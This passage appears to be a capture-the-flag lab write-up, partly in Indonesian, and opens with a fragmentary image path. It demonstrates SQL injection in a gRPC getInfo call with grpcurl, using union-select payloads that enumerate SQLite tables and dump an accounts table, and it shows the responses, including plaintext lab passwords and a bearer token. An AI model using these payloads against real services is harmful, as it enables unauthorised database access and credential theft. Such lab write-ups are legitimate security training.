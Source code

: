```json
}

Response trailers received:
(empty)
Sent 1 request and received 1 response

```

#### SQL Injection
1. terdapat sql injection pada query getInfo di bagaian request id nya, contoh payload nya :

   ```bash
   1 union select sqlite_version()
```

**Command:**
```bash
grpcurl -d 'id: "320 union select group_concat(tbl_name) from sqlite_master where type=\"table\" and tbl_name NOT LIKE \"sqlite_%\""' -H "token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4xMjMiLCJleHAiOjE3MTg2NDAxNjN9.yzh9nNTe79t9JRD_wfEg3nE7-p7IMJ6C1177i8GP8bI" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
```
**Response:**
```json
message: "accounts,messages"
```

#### check structure table

**Command:**
```bash
grpcurl -d 'id: "320 union select group_concat(sql) from sqlite_master where type!=\"meta\" and sql NOT NULL and name =\"accounts\""' -H "token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4xMjMiLCJleHAiOjE3MTg2NDAxNjN9.yzh9nNTe79t9JRD_wfEg3nE7-p7IMJ6C1177i8GP8bI" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
```

**Response:**
```json
message: "CREATE TABLE \"accounts\" (\n\tusername TEXT UNIQUE,\n\tpassword TEXT\n)"
```

##### Select 

**Command**
```bash
grpcurl -d 'id: "320 union select group_concat(username || \":\" || password ) from accounts"' -H "token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4xMjMiLCJleHAiOjE3MTg2NDAxNjN9.yzh9nNTe79t9JRD_wfEg3nE7-p7IMJ6C1177i8GP8bI" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
```

**Response:**
```json
message: "admin:admin,sau:HereIsYourPassWord1431"
```
